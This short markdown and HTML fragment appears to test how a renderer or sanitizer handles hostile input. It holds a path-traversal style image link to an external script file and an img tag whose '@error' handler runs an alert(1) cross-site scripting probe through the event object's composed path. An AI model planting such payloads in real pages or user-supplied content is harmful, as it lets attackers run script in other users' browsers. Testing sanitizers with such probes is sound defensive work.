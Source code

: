 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src=@error='e=$event.composedPath().pop().alert(1)'>
